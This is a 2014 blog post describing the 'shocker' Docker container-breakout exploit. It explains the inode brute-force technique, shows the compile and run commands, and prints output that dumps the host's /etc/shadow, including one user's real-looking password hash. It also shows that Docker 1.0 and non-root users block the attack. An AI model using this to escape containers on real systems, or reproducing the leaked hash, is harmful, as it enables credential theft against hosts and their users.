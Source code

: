 ```yaml
---
layout: post
title: "Docker Container Break-out Exploit"
date: 2014-06-19 12:00:00
categories: docker,security
---
```


Amidst various blog postings on Docker, a [security issue][docker_security_exploit] announced yesterday that detailed an exploit of [Docker][Docker] that makes it possible to do container breakout. This exploit would allow the ability to any data, including sensitive data, on the host system.

How does it work? Essentially, the file system struct of the container is shared with the host which allows a program on the container to run that can open file handles-- which consist of a 64-bit string and a 32-bit inode number. Starting at an inode value of 2, which is / (root filesystem), the file system path is then walked and the use of brute force the 32-bit inode number to find the desired file.

The code to test this,  [shocker.c][shocker_dot_c], which was developed by Sebastian Krahmer (Thank you!) can be used to demonstrate this exploit, and indeed I was able to:

    root@cd0401b8027e:~# gcc -o shocker -Wall -std=c99 -O2 shocker.c -static

    iroot@cd0401b8027e:~# ./shocker
    [***] docker VMM-container breakout Po(C) 2014             [***]
    [***] The tea from the 90's kicks your sekurity again.     [***]
    [***] If you have pending sec consulting, I'll happily     [***]
    [***] forward to my friends who drink secury-tea too!      [***]

    <enter>
    ... hit enter ..
    [*] Resolving 'etc/shadow'
    [*] Found etc
    [+] Match: etc ino=262145
    [*] Brute forcing remaining 32bit. This can take a while...
    [*] (etc) Trying: 0x00000000
    [*] #=8, 1, char nh[] = {0x01, 0x00, 0x04, 0x00, 0x00, 0x00, 0x00, 0x00};
    [*] Resolving 'shadow'
    [*] Found .
    [*] Found ..
    [*] Found hdparm.conf
    [*] Found gnome-app-install
    [*] Found hosts.deny
    [*] Found sysfs.conf
    [*] Found sudoers.d
    [*] Found securetty
    [*] Found passwd-
    [*] Found rpc
    [*] Found lintianrc
    [*] Found usb_modeswitch.d
    [*] Found rc.local
    [*] Found rcS.d
    [*] Found gtk-3.0

       ...  <snip> list of numerous files </snip> ...
    [*] Found shadow
    [+] Match: shadow ino=310601
    [*] Brute forcing remaining 32bit. This can take a while...
    [*] (shadow) Trying: 0x00000000
    [*] #=8, 1, char nh[] = {0x49, 0xbd, 0x04, 0x00, 0x00, 0x00, 0x00, 0x00};
    [!] Got a final handle!
    [*] #=8, 1, char nh[] = {0x49, 0xbd, 0x04, 0x00, 0x00, 0x00, 0x00, 0x00};
    [!] Win! /etc/shadow output follows:
    root:!:16108:0:99999:7:::
    daemon:*:15819:0:99999:7:::
    bin:*:15819:0:99999:7:::
    sys:*:15819:0:99999:7:::
    sync:*:15819:0:99999:7:::
    games:*:15819:0:99999:7:::
    man:*:15819:0:99999:7:::
    lp:*:15819:0:99999:7:::
    mail:*:15819:0:99999:7:::
    news:*:15819:0:99999:7:::
    uucp:*:15819:0:99999:7:::
    proxy:*:15819:0:99999:7:::
    www-data:*:15819:0:99999:7:::
    backup:*:15819:0:99999:7:::
    list:*:15819:0:99999:7:::
    irc:*:15819:0:99999:7:::
    gnats:*:15819:0:99999:7:::
    nobody:*:15819:0:99999:7:::
    libuuid:!:15819:0:99999:7:::
    syslog:*:15819:0:99999:7:::
    messagebus:*:15819:0:99999:7:::
    avahi-autoipd:*:15819:0:99999:7:::
    usbmux:*:15819:0:99999:7:::
    dnsmasq:*:15819:0:99999:7:::
    whoopsie:*:15819:0:99999:7:::
    kernoops:*:15819:0:99999:7:::
    rtkit:*:15819:0:99999:7:::
    speech-dispatcher:!:15819:0:99999:7:::
    lightdm:*:15819:0:99999:7:::
    avahi:*:15819:0:99999:7:::
    colord:*:15819:0:99999:7:::
    pulse:*:15819:0:99999:7:::
    hplip:*:15819:0:99999:7:::
    saned:*:15819:0:99999:7:::
    patg:$6$XWg5Ve9s$oGKAZEEzX.e7D2nyJblwWZ8jyr3VUa4ZoikDU98TbyXwuvJ8WLw6j.NIzObqvfEQxNbSTiP1aWmAWUFVSi6s6.:16119:0:99999:7:::
    sshd:*:16108:0:99999:7:::
    lxc-dnsmasq:!:16108:0:99999:7:::
    rabbitmq:!:16108:0:99999:7:::
    mysql:!:16108:0:99999:7:::
    libvirt-qemu:!:16120:0:99999:7:::
    libvirt-dnsmasq:!:16120:0:99999:7:::
<br />
Oops! ```/etc/shadow``` is definitely not a file on my host I want to be visible by a container.

    $ docker -v
    Docker version 0.11.1, build fb99f99

<br />
With a newer version of Docker (1.0.0), this is not a problem:

    docker -v
    Docker version 1.0.0, build 63fe64c

    root@5698e0f422f2:/# ./shocker
    [***] docker VMM-container breakout Po(C) 2014             [***]
    [***] The tea from the 90's kicks your sekurity again.     [***]
    [***] If you have pending sec consulting, I'll happily     [***]
    [***] forward to my friends who drink secury-tea too!      [***]

    <enter>

    [*] Resolving 'etc/shadow'
    [-] open_by_handle_at: Operation not permitted

<br />
Do note though, one must not rest upon their laurels or getting to comfortable with the default configuration despite being 1.0.

Some of the suggested fixes are to use apparmor or selinux containment, map trust groups to separate machines or to avoid running the app as root. I think the quickest fix and one that I tested and found easiest was running as a regular user. On my first instance where the exploit worked, using an ```ubuntu``` user solved the issue:

    ubuntu@cd0401b8027e:~$ ./shocker
    [***] docker VMM-container breakout Po(C) 2014             [***]
    [***] The tea from the 90's kicks your sekurity again.     [***]
    [***] If you have pending sec consulting, I'll happily     [***]
    [***] forward to my friends who drink secury-tea too!      [***]

    <enter>

    [-] open: Permission denied

<br />
The article also states that there will be further enhancements to [Docker][Docker] including [user-namespaces][user_namespaces]. For the full scoop, the [article is here][docker_security_exploit]

[user_namespaces]: http://lwn.net/Articles/528078/
[docker_security_exploit]: https://news.ycombinator.com/item?id=7909622
[shocker_dot_c]: http://stealth.openwall.net/xSports/shocker.c
[Docker]: http://docker.io
[Ansible]: http://www.ansible.com/home
[ansible_dynamic_inventory]: http://docs.ansible.com/intro_dynamic_inventory.html#dynamic-inventory
[ansible_example_repository]: https://github.com/ansible/ansible-examples
[ansible_documentation]: http://docs.ansible.com/
[ansible_apt_module]: http://docs.ansible.com/apt_module.html
[ansible_docker_module]: http://docs.ansible.com/docker_module.html
[ansible_docker_image_module]: http://docs.ansible.com/docker_image_module.html
[ansible_docker_facts_module]: https://github.com/CaptTofu/ansible/tree/docker_facts
[ansible_docker_dynamic_inventory]: https://github.com/ansible/ansible/blob/devel/plugins/inventory/docker.py
[docker-py]: https://github.com/dotcloud/docker-py
[docker_intro_blog]: http://patg.net/containers,virtualization,docker/2014/06/05/docker-intro/
[docker_install_blog]: http://patg.net/containers,virtualization,docker/2014/06/09/docker-install/
[docker_using_blog]: http://patg.net/containers,virtualization,docker/2014/06/10/using-docker/
[ansible_playbooks]: http://docs.ansible.com/playbooks.html
[ansible_example_playbook_repository]: https://github.com/ansible/ansible-examples
[docker_cli]: https://docs.docker.com/reference/commandline/cli/
[AnsibleFest]: http://www.marketwired.com/press-release/speakers-from-twitter-google-twilio-edx-rackspace-headline-ansiblefest-nyc-2014-1902858.htm
[ansible_docker_presentation]: http://www.slideshare.net/PatrickGalbraith/docker-ansible-34909080
